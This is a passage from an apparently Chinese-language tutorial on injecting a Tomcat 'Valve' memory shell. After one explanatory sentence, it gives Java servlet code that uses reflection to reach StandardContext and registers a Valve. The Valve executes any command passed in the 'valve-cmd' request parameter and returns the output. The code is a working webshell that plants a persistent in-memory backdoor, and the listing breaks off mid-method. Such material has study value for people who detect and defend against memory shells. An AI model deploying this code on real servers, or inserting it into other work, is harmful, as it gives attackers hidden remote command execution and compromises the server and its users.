 在Request对象中，存在一个getContext方法返回的是Context对象，可以直接类型转换为StandardContext

```
package Servlet;

import org.apache.catalina.connector.Request;
import org.apache.catalina.connector.Response;
import org.apache.catalina.core.StandardContext;
import org.apache.catalina.valves.ValveBase;

import javax.servlet.ServletException;
import javax.servlet.annotation.WebServlet;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.BufferedReader;
import java.io.IOException;
import java.io.InputStream;
import java.io.InputStreamReader;
import java.lang.reflect.Field;

@WebServlet("/valve")
public class ValveServlet extends HttpServlet {
    @Override
    protected void doGet(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
        try {
            Field field = req.getClass().getDeclaredField("request");
            field.setAccessible(true);
            Request request = (Request) field.get(req);
            StandardContext standardContext = (StandardContext) request.getContext();
            class TestValve extends ValveBase {
                @Override
                public void invoke(Request request, Response response) throws IOException, ServletException {
                    try {
                        if (request.getParameter("valve-cmd") != null) {
                            String cmd = request.getParameter("valve-cmd");
                            InputStream inputStream = Runtime.getRuntime().exec(cmd).getInputStream();
                            InputStreamReader inputStreamReader = new InputStreamReader(inputStream);
                            BufferedReader bufferedReader = new BufferedReader(inputStreamReader);
                            String line = null;
                            while ((line = bufferedReader.readLine()) != null) {
                                response.getWriter().println(line);
                            }
                        }
                    } catch (Exception e) {
                        e.printStackTrace();
                    }
                    getNext().invoke(request, response);
                }
            }
            standardContext.addValve(new TestValve());
        }catch (Exception e){
            e.printStackTrace();
        }
    }

    @Override
    protected void doPost(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
        super.doPost(req, resp);
```